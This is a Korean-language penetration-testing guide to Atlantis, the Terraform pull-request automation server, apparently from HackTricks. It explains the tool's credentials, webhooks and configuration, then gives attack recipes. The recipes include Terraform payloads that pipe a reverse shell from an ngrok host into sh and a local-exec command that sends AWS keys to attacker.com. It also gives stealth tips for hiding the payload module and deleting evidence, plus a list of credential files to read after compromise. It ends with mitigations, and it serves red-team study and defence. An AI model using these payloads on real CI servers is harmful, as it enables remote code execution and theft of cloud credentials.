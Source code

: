 # 애틀란티스 보안

<details>

{% hint style="success" %}
AWS 해킹 배우고 실습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 배우고 실습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop) 확인하기!
* 💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## 기본 정보

애틀란티스는 기본적으로 귀하의 git 서버에서 풀 리퀘스트로 테라폼을 실행하는 데 도움을 줍니다.

![](<../.gitbook/assets/image (161).png>)

## 로컬 랩

1. [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases)의 **애틀란티스 릴리스 페이지**로 이동하여 적합한 것을 **다운로드**합니다.
2. **Github** 사용자의 **repo 액세스**를 위한 **개인 토큰**을 생성합니다.
3. `./atlantis testdrive`를 실행하면 **애플리케이션과 대화할 수 있는 데모 레포**가 생성됩니다.
1. 127.0.0.1:4141에서 웹 페이지에 액세스할 수 있습니다.

## 애틀란티스 액세스

### Git 서버 자격 증명

**애틀란티스**는 **Github**, **Gitlab**, **Bitbucket** 및 **Azure DevOps**와 같은 여러 git 호스트를 지원합니다.\
그러나 이러한 플랫폼의 리포지토리에 액세스하고 작업을 수행하려면 일부 **특권 액세스 권한이 부여**되어야 합니다(쓰기 권한 이상).\
[**문서**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional)는 특히 애틀란티스를 위해 이러한 플랫폼에 사용자를 생성하도록 권장하지만 일부 사람들은 개인 계정을 사용할 수 있습니다.

{% hint style="warning" %}
공격자의 관점에서 **애틀란티스 계정**은 매우 **흥미로운 대상**이 될 것입니다.
{% endhint %}

### 웹훅

애틀란티스는 선택적으로 [**웹훅 비밀**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret)을 사용하여 Git 호스트로부터 받은 **웹훅**이 **정당한지 확인**합니다.

이를 확인하는 한 가지 방법은 요청을 **Git 호스트의 IP에서만 허용**하도록하는 것이지만 더 쉬운 방법은 웹훅 비밀을 사용하는 것입니다.

개인 github 또는 bitbucket 서버를 사용하지 않는 한 웹훅 엔드포인트를 인터넷에 노출해야 합니다.

{% hint style="warning" %}
애틀란티스는 **웹훅을 노출**하여 git 서버가 정보를 보낼 수 있도록 합니다. 공격자의 관점에서는 **메시지를 보낼 수 있는지** 알아보는 것이 흥미로울 것입니다.
{% endhint %}

### 제공자 자격 증명 <a href="#provider-credentials" id="provider-credentials"></a>

[문서에서:](https://www.runatlantis.io/docs/provider-credentials.html)

애틀란티스는 **`terraform plan` 및 `apply`** 명령을 단순히 실행하여 서버 **애틀란티스가 호스팅된**에서 Terraform을 실행합니다. 로컬에서 Terraform을 실행할 때와 마찬가지로 Atlantis는 특정 제공자에 대한 자격 증명이 필요합니다.

특정 제공자에 대한 자격 증명을 애틀란티스에 제공하는 방법은 다음과 같습니다:

* 애틀란티스 [헬름 차트](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) 및 [AWS Fargate 모듈](https://www.runatlantis.io/docs/deployment.html#aws-fargate)에는 제공자 자격 증명을 위한 고유한 메커니즘이 있습니다. 해당 문서를 참조하세요.
* 클라우드에서 애틀란티스를 실행하는 경우 많은 클라우드에서 클라우드 API 액세스를 제공하는 방법이 있습니다. 예:
* [AWS EC2 역할](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) ("EC2 Role" 검색)
* [GCE 인스턴스 서비스 계정](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* 많은 사용자가 Atlantis가 실행되는 위치에서 환경 변수를 설정합니다. 예: `AWS_ACCESS_KEY`
* 다른 사용자는 Atlantis가 실행되는 위치에 필요한 구성 파일을 생성합니다. 예: `~/.aws/credentials`
* [HashiCorp Vault Provider](https://registry.terraform.io/providers/hashicorp/vault/latest/docs)를 사용하여 제공자 자격 증명을 얻습니다.

{% hint style="warning" %}
**애틀란티스**가 **실행**되는 **컨테이너**에는 애틀란티스가 Terraform을 통해 관리하는 제공자(AWS, GCP, Github...)에 대한 특권 자격 증명이 포함되어 있을 가능성이 매우 높습니다.
{% endhint %}

### 웹 페이지

기본적으로 애틀란티스는 로컬호스트의 포트 4141에서 **웹 페이지를 실행**합니다. 이 페이지는 애틀란티스 apply를 활성화/비활성화하고 리포의 계획 상태를 확인하고 잠금을 해제하는 데 사용됩니다(사용자가 수정할 수 없으므로 그다지 유용하지 않습니다).

인터넷에 노출되어 있지 않을 가능성이 높지만 기본적으로 액세스할 때 **자격 증명이 필요하지 않습니다**(필요한 경우 `atlantis`:`atlantis`가 **기본**입니다).

## 서버 구성

`atlantis server`의 구성은 명령줄 플래그, 환경 변수, 구성 파일 또는 세 가지의 혼합을 통해 지정할 수 있습니다.

* Atlantis 서버에서 지원하는 [**플래그 목록은 여기에서 찾을 수 있습니다**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration)
* [**여기에서 구성 옵션을 환경 변수로 변환하는 방법**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)을 찾을 수 있습니다.

값은 다음과 같은 순서로 선택됩니다:

1. 플래그
2. 환경 변수
3. 구성 파일

{% hint style="warning" %}
구성에서 **토큰 및 비밀번호**와 같은 흥미로운 값이 포함될 수 있음에 유의하십시오.
{% endhint %}

### 리포 구성

일부 구성은 **리포지토리가 관리되는 방식**에 영향을 줍니다. 그러나 **각 리포지토리가 다른 설정을 필요로** 할 수 있으므로 각 리포지토리를 지정하는 방법이 있습니다. 이는 우선 순위 순서입니다:

1. 리포 [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) 파일. 이 파일을 사용하여 애틀란티스가 리포지토리를 처리하는 방법을 지정할 수 있습니다. 그러나 기본적으로 일부 키는 플래그를 사용하지 않으면 여기에서 지정할 수 없습니다.
1. `allowed_overrides` 또는 `allow_custom_workflows`와 같은 플래그에 의해 허용되어야 할 가능성이 높습니다.
2. [**서버 측 구성**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): `--repo-config` 플래그로 전달할 수 있으며 각 리포지토리에 대한 새로운 설정을 구성하는 yaml입니다(정규식 지원).
3. **기본** 값들
#### PR Protections

Atlantis는 **PR**이 **`approved`**되기를 원하는지 (브랜치 보호에 설정되지 않았더라도) 및/또는 **`mergeable`**한지 (브랜치 보호가 통과되었는지) **apply를 실행하기 전에** 지정할 수 있습니다. 보안적인 측면에서, 두 옵션을 설정하는 것이 권장됩니다.

`allowed_overrides`가 True인 경우, 이러한 설정은 **각 프로젝트별로 `/atlantis.yml` 파일에서 덮어쓸 수 있습니다.**

#### Scripts

리포지토리 구성은 **워크플로우가 실행되기 전**([**pre workflow hooks**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage)) 및 **후**([**post workflow hooks**](https://www.runatlantis.io/docs/post-workflow-hooks.html))에 **실행할 스크립트를 지정**할 수 있습니다.

이러한 스크립트를 **리포 `/atlantis.yml`** 파일에서 **지정하는 옵션이 없습니다.**

#### Workflow

리포지토리 구성(서버 측 구성)에서는 [**새로운 기본 워크플로우를 지정**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow)하거나 [**새로운 사용자 정의 워크플로우를 생성**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**할 수 있습니다.** 또한 생성된 **새로운 것들에 액세스할 수 있는 리포지토리**를 **지정**할 수 있습니다.\
그런 다음, 각 리포의 **atlantis.yaml** 파일에서 사용할 워크플로우를 **지정**할 수 있습니다.

{% hint style="danger" %}
[**서버 측 구성**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) 플래그 `allow_custom_workflows`가 **True**로 설정된 경우, 각 리포의 **`atlantis.yaml`** 파일에서 워크플로우를 **지정**할 수 있습니다. 또한 **`allowed_overrides`**가 사용자가 사용할 워크플로우를 **덮어쓸 수 있도록 `workflow`도 지정**해야 할 수도 있습니다.\
이는 기본적으로 **해당 리포에 액세스할 수 있는 모든 사용자에게 Atlantis 서버에서 RCE를 제공**할 것입니다.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest 정책 확인

Atlantis는 **서버 측** [**conftest**](https://www.conftest.dev/) **정책**을 계획 출력에 대해 실행하는 것을 지원합니다. 이 단계를 사용하는 일반적인 사례는 다음과 같습니다:

* 모듈 목록 사용 거부
* 생성 시 리소스의 속성 단언
* 의도하지 않은 리소스 삭제 감지
* 보안 위험 방지 (예: 안전한 포트를 공개)

[**문서**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works)에서 구성 방법을 확인할 수 있습니다.

## Atlantis 명령어

[**문서**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis)에서 Atlantis를 실행하는 데 사용할 수 있는 옵션을 찾을 수 있습니다.
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## 공격

{% hint style="warning" %}
만약 공격 중에 다음 **오류**를 발견한다면: `Error: Error acquiring the state lock`

다음을 실행하여 해결할 수 있습니다:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - 새 PR에서 구성 수정

만약 귀하가 저장소에 쓰기 액세스 권한이 있다면 해당 저장소에 새 브랜치를 생성하고 PR을 생성할 수 있습니다. **`atlantis plan`을 실행할 수 있다면(또는 자동으로 실행되는 경우)** Atlantis 서버 내에서 RCE를 실행할 수 있습니다.

이를 수행하는 방법은 [**Atlantis가 외부 데이터 소스를 로드하도록 하는 것**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)입니다. `main.tf` 파일에 다음과 같은 payload를 넣으면 됩니다:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 은밀한 공격

이 공격을 더 은밀하게 수행할 수 있습니다. 다음 제안을 따르세요:

* 테라폼 파일에 직접 rev 쉘을 추가하는 대신, rev 쉘을 포함하는 **외부 리소스를 로드**할 수 있습니다:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
rev shell 코드는 [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)에서 찾을 수 있습니다.

* 외부 자원에서 **ref** 기능을 사용하여 **리포지토리 내의 브랜치에 terraform rev shell 코드를 숨기세요**, 다음과 같이: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* Atlantis를 트리거하기 위해 **마스터로 PR을 생성하는 대신**, **2개의 브랜치(test1 및 test2)를 생성**하고 **한 브랜치에서 다른 브랜치로 PR을 생성**합니다. 공격을 완료하면 **PR과 브랜치를 제거**하십시오.

### Atlantis plan Secrets Dump

`atlantis plan` (`terraform plan`)을 실행하여 **terraform에서 사용된 비밀을 덤프**할 수 있습니다. 이를 위해 terraform 파일에 다음과 같은 내용을 넣으십시오:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis apply RCE - 새 PR에서 구성 수정

만약 귀하가 저장소에 쓰기 액세스 권한이 있다면 해당 저장소에 새 브랜치를 생성하고 PR을 생성할 수 있습니다. **`atlantis apply`를 실행할 수 있다면 Atlantis 서버 내에서 RCE를 실행할 수 있습니다**.

그러나 일반적으로 일부 보호 기능을 우회해야 할 수 있습니다:

- **병합 가능(Mergeable)**: Atlantis에서 이 보호 기능이 설정된 경우, **PR이 병합 가능한 경우에만 `atlantis apply`를 실행할 수 있습니다** (즉, 브랜치 보호를 우회해야 함).
- [**브랜치 보호 우회**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)를 확인하세요.
- **승인(Approved)**: Atlantis에서 이 보호 기능이 설정된 경우, **다른 사용자가 PR을 승인해야만 `atlantis apply`를 실행할 수 있습니다**.
- 기본적으로 [**Gitbot 토큰을 남용하여 이 보호를 우회할 수 있습니다**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md).

악성 Terraform 파일에서 **`terraform apply`를 실행하면서** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**을 사용합니다**.\
다음과 같은 페이로드가 `main.tf` 파일에 포함되도록만 하면 됩니다:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**이전 기술의 제안을 따라** 이 공격을 **보다 은밀하게** 수행하십시오.

### Terraform Param Injection

`atlantis plan` 또는 `atlantis apply`를 실행할 때 terraform이 필요로 하는 상황에서, atlantis에서 다음과 같이 주석을 달아 terraform에 명령을 전달할 수 있습니다:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### 사용자 정의 워크플로우

`atlantis.yaml` 파일에 지정된 **악성 사용자 정의 빌드 명령어**를 실행합니다. Atlantis는 `master`가 아닌 풀 리퀘스트 브랜치의 `atlantis.yaml` 파일을 사용합니다.\
이 가능성은 이전 섹션에서 언급되었습니다:

{% hint style="danger" %}
만약 [**서버 측 구성**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) 플래그 `allow_custom_workflows`가 **True**로 설정되어 있다면, 각 레포지토리의 **`atlantis.yaml`** 파일에 워크플로우를 **지정**할 수 있습니다. 또한 **`allowed_overrides`**가 **`workflow`**도 지정하여 사용할 워크플로우를 **오버라이드**해야 할 수도 있습니다.

이는 기본적으로 **해당 레포지토리에 액세스할 수 있는 모든 사용자에게 Atlantis 서버에서 RCE를 제공**할 것입니다.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### 우회 plan/apply 보호

만약 [**서버 측 구성**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) 플래그 `allowed_overrides` _에_ `apply_requirements`가 구성되어 있다면, 해당 리포지토리가 **계획/적용 보호를 우회하여 수정**할 수 있습니다.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Hijacking

만약 누군가가 **당신의 유효한 풀 리퀘스트에 `atlantis plan/apply` 댓글을 남기면,** terraform이 원하지 않을 때 실행되게 됩니다.

게다가, **브랜치 보호**에 **새로운 커밋이 푸시될 때마다 모든 PR을 **재평가**하도록 구성하지 않은 경우, 누군가가 terraform 구성에서 **악성 구성**(이전 시나리오 확인)을 작성하고 `atlantis plan/apply`를 실행하여 RCE를 얻을 수 있습니다.

이것은 Github 브랜치 보호 설정입니다:

![](<../.gitbook/assets/image (216).png>)

### Webhook Secret

만약 **웹훅 시크릿을 탈취**하거나 **사용 중인 웹훅 시크릿이 없는 경우**, Atlantis 웹훅을 호출하고 직접 atlantis 명령을 실행할 수 있습니다.

### Bitbucket

Bitbucket Cloud는 **웹훅 시크릿을 지원하지 않습니다**. 이는 공격자가 Bitbucket에서 요청을 위장할 수 있게 합니다. 오직 Bitbucket IP만 허용하도록 해야 합니다.

* 이는 **공격자**가 Bitbucket에서 온 것처럼 보이는 **Atlantis에 가짜 요청**을 만들 수 있게 합니다.
* 만약 `--repo-allowlist`를 지정하고 있다면, 그들은 해당 리포에 관한 가짜 요청만 만들 수 있기 때문에 가장 큰 피해는 자신의 리포에서 plan/apply를 실행하는 것입니다.
* 이를 방지하기 위해 [Bitbucket의 IP 주소](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)를 허용목록에 추가하세요 (Outbound IPv4 주소 참조).

## 사후 공격

서버에 액세스를 얻거나 적어도 LFI를 얻었다면 읽어볼만한 흥미로운 것들이 있습니다:

* `/home/atlantis/.git-credentials` VCS 액세스 자격 증명 포함
* `/atlantis-data/atlantis.db` 더 많은 정보가 포함된 VCS 액세스 자격 증명 포함
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Terraform 상태 파일
* 예: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` 환경 변수
* `/proc/[2-20]/cmdline` `atlantis server`의 Cmd 라인 (민감한 데이터 포함 가능)

## 완화 방법

### 공개 리포지토리에서 사용하지 마세요 <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

누구나 공개 풀 리퀘스트에 댓글을 남길 수 있기 때문에 모든 보안 완화 조치가 가능하더라도, 보안 설정을 제대로 구성하지 않은 상태에서 공개 리포지토리에서 Atlantis를 실행하는 것은 여전히 위험합니다.

### `--allow-fork-prs` 사용하지 마세요 <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

권장되지 않는 공개 리포지토리에서 실행 중이라면 `--allow-fork-prs`를 설정하지 마세요 (기본값은 false) - 누구나 자신의 포크에서 당신의 리포지토리로 풀 리퀘스트를 열 수 있기 때문입니다.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis는 `--repo-allowlist` 플래그를 통해 웹훅을 수락할 리포지토리의 목록을 지정해야 합니다. 예를 들어:

* 특정 리포지토리: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* 전체 조직: `--repo-allowlist=github.com/runatlantis/*`
* GitHub Enterprise 설치의 모든 리포지토리: `--repo-allowlist=github.yourcompany.com/*`
* 모든 리포지토리: `--repo-allowlist=*`. 웹훅 시크릿을 설정하지 않은 경우 보안 네트워크에서 유용하지만 위험합니다.

이 플래그는 Atlantis 설치가 제어하지 않는 리포지토리와 함께 사용되지 않도록 합니다. 자세한 내용은 `atlantis server --help`를 참조하세요.

### Terraform Planning 보호 <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

악성 Terraform 코드를 제출하는 공격자가 당신의 위협 모델에 있다면, `terraform apply` 승인만으로 충분하지 않음을 인식해야 합니다. [`external` 데이터 소스](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)를 사용하거나 악의적인 프로바이더를 지정하여 `terraform plan`에서 악성 코드를 실행할 수 있습니다. 이 코드는 그런 다음 귀하의 자격 증명을 유출할 수 있습니다.

이를 방지하기 위해 다음을 수행할 수 있습니다:

1. Atlantis 이미지에 프로바이더를 포함하고 프로덕션에서 egress를 거부합니다.
2. 내부적으로 프로바이더 레지스트리 프로토콜을 구현하고 공개 egress를 거부하여 레지스트리에 쓰기 액세스를 제어합니다.
3. [서버 측 리포지토리 구성](https://www.runatlantis.io/docs/server-side-repo-config.html)의 `plan` 단계를 수정하여 금지된 프로바이더나 데이터 소스 사용을 검증하거나 허용되지 않은 사용자의 PR을 거부할 수 있습니다. 여기에 추가 검증을 추가할 수도 있습니다. 예를 들어 `plan`을 계속하기 전에 PR에 "좋아요"를 요구하는 것 등. Conftest를 여기에 사용할 수 있습니다.

### 웹훅 시크릿 <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis는 `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` 환경 변수를 통해 설정된 웹훅 시크릿으로 실행되어야 합니다. `--repo-allowlist` 플래그가 설정되어 있더라도 웹훅 시크릿이 없으면, 공격자가 허용 목록에 있는 리포지토리로 위장하여 Atlantis에 요청을 보낼 수 있습니다. 웹훅 시크릿은 웹훅 요청이 실제로 귀하의 VCS 제공업체 (GitHub 또는 GitLab)에서 오는지 확인합니다.

Azure DevOps를 사용하는 경우, 웹훅 시크릿 대신 기본 사용자 이름과 암호를 추가하세요.

### Azure DevOps 기본 인증 <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps는 모든 웹훅 이벤트에서 기본 인증 헤더를 보낼 수 있습니다. 웹훅 위치에 HTTPS URL을 사용해야 합니다.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

웹훅 시크릿을 사용하고 있지만 트래픽이 HTTP를 통해 전송되는 경우 웹훅 시크릿이 탈취될 수 있습니다. `--ssl-cert-file` 및 `--ssl-key-file` 플래그를 사용하여 SSL/HTTPS를 활성화하세요.

### Atlantis 웹 서버에서 인증 활성화 <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

웹 서비스에서 인증을 활성화하는 것이 매우 권장됩니다. `--web-basic-auth=true`를 사용하여 BasicAuth를 활성화하고 `--web-username=yourUsername` 및 `--web-password=yourPassword` 플래그를 사용하여 사용자 이름과 암호를 설정하세요.

이를 환경 변수로도 전달할 수 있습니다. `ATLANTIS_WEB_BASIC_AUTH=true`, `ATLANTIS_WEB_USERNAME=yourUsername`, `ATLANTIS_WEB_PASSWORD=yourPassword`.

## 참고 자료

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>
{% endhint %}
